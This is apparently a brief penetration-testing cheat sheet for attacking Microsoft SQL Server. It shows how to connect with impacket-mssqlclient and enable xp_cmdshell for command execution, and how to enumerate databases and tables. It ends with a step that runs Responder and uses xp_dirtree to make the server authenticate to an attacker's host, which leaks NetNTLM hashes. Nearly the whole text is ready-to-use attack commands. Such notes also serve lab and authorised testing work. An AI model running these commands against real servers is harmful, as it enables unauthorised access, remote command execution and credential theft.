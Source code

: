 **MSSQL:**
---
```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

Try:

```mssql
enable_xp_cmdshell
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

**List tables in selected DB:**
---
#mssql 
```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

